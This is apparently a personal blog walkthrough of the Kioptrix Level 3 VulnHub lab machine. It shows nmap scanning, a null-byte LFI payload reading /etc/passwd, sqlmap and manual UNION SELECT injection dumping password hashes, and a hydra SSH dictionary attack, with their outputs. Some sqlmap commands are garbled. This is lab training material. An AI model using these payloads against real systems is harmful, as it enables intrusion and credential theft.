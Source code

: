 ```yaml
---
layout: posts
title:  "Kioptrix Level 3 Writeup"
date:   2019-04-14 21:28:02 +0530
author: Kyle Simmons
categories: [vulnhub, vulnerable-machine]
---
```

Kioptrix level 3 vulnerable machine from vulnhub.

Kioptrix level 3 vulnhub link below: <br>
[Kioptrix Level 3 download page]
<br><br>
<h2>1. Enumeration</h2>
A port scan reveals that only SSH and HTTP is open.
{% highlight shell_session %}
nmap -T4 -sV -A -oA nmapscan 192.168.0.71
Nmap scan report for UNKNOWN (192.168.0.71)
Host is up (0.0051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
{% endhighlight %}
<br>


<h3>1.1 SSH</h3>
SSH appears to not have any vulnerable versions. However, SSH could possibly have weak credentials.
<br><br>


<h3>1.2.1 HTTP</h3>
Dirb and Nikto is run in the background to check for any interesting pages or vulnerabilities. Dirb reveals
that there is an accessible <font color="red">phpmyadmin</font> page. The page can be logged in
using the username <font color="red">root</font> and the
password can be a random string. However, this did not really reveal anything and the default login has no privileges.
<br><br>
The login page reveals that it is powered by <font color="red">lotus</font>.
<br><br><br>
![Kioptrix level 3 lotus login](/assets/images/Kioptrix/Kioptrix3-lotus-login.png)
<br><br>
Using searchsploit, a vulnerability is found:
<br>
![Kioptrix level 2 lotus vuln](/assets/images/Kioptrix/Kioptrix3-lotus-cms-vuln.png)
<br><br>
This vulnerability is for remote command execution with metasploit. This can be used
to get a meterpreter shell on the target. Finding this exploit was too easy. However there are several
vulnerabilities on this machine.
<br><br>


<h3>1.2.2 HTTP - LFI</h3>
The URL appears to include files, this could possibly be vulnerable to LFI.
<br><br>
`http://192.168.0.71/index.php?system=Blog`
<br><br>
Using the following after system <font color="red">../../../../../etc/passwd</font> reveals nothing. However, with some research.
The OWSAP 'Testing for LFI page' reveals that when using PHP, a null byte terminator at the end of the file will
bypass it. When using the following:
<br><br>
`http://vulnerable_host/preview.php?file=../../../../etc/passwd%00jpg`
<br>
{% highlight shell_session %}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
...............
...............
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
{% endhighlight %}
This shows the passwd contents which can used for brute forcing SSH. <font color="red">loneferret</font> and <font color="red">dreg</font> can be used to perform a
dictionary attack against them over SSH.
<br><br>
More info from OWASP here: [OWASP LFI testing]
<br><br>


<h3>1.2.3 HTTP - sqlmap (Easy SQL Injection)</h3>
<br>
When browsing the website, the gallery page has a button to filter by an ID. This appears to
be a form of retrieving data from the SQL database. Using the <font color="red">'</font> at the end of the ID, an SQL
error appears which is good news. The website is vulnerable to SQL. SQLmap is then used to check for the
databases:
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= --dbs`
<br><br>
available databases [3]:<br>
<font color="red">gallery</font>---
<font color="red">information_schema</font>---
<font color="red">mysql</font>---
<br>
Three databases were revealed above. The gallery database could be the contents of
the images and users of the gallery. The database <font color="red">gallery</font> can searched next.
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=">http://192.168.0.71/gallery/gallery.php\?id\= -D gallery --'tables'`

{% highlight shell_session %}
Database: gallery
[7 tables]
+----------------------+
| `dev_accounts`       |
| gallarific_comments  |
| gallarific_galleries |
| gallarific_photos    |
| gallarific_settings  |
| gallarific_stats     |
| gallarific_users     |
+----------------------+
{% endhighlight %}
<br>
A table of <font color="red">dev_accounts</font> is worth investigating, this could contain <font color="red">dev</font> accounts.. duh.
<br><br>
`sqlmap -u http://192.168.0.71/gallery/gallery.php\?id\=http://192.168.0.71/gallery/gallery.php\?id\= -D gallery -T dev_accounts --dump`

{% highlight shell_session %}
Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+---------------------------------------------+
| id | username   | password                                    |
+----+------------+---------------------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
+----+------------+---------------------------------------------+
{% endhighlight %}
<br>
The <font color="red">dev_accounts</font> results contain 2 usernames and 2 hashes which were easily
crackable with sqlmap.
<br><br>
<h3>1.2.4 HTTP - SQLI (without sqlmap)</h3>

Checking for the amount of columns by using <font color="red">ORDER BY</font>.<br>
`id=2 union select 1,2,3,4,5,6`
<br><br>
Finding the database and tables using <font color="red">UNION SELECT</font>. This results in the database <font color="red">gallery</font> being shown. <br>
`id=2 UNION SELECT 1, table_schema, table_name,4,5,6 FROM information_schema.tables--`
<br><br>
Searching inside the database gallery:<br>
`id=1 UNION SELECT 1, table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#`
<br><br>
The gallery table shows the dev_accouns table. The dev_accounts can then be searched for the columns.<br>
`id=1 UNION SELECT 1, column_name,3,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#`
<br><br>
The columns reveal the 2 user accounts and there corresponding hashes. The hashes can then be cracked with
john the ripper.
<br><br>

<h2>2.1 Exploitation - SSH</h2>

The credentials fetched from the LFI attack can be run against a dictionary.<br>
{% highlight shell_session %}
hydra -t 6 -l loneferret -P 10k-most-common.txt 192.168.0.71 ssh
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.71:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.71   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}
<br>
The dictionary attack with Hydra above was successful and the password was revealed as <font color="red">starwars</font>. When attempting to login
to SSH with this username and password it is successful. When browsing files i found a configuration file in the gallery
directory which contains the mysql login which is <font color="red">root</font> and the password is <font color="red">fuckeyou</font>. This gives us full root access to
the database.
<h3>Pwned!</h3>

[Kioptrix Level 3 download page]: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
[OWASP LFI testing]: https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
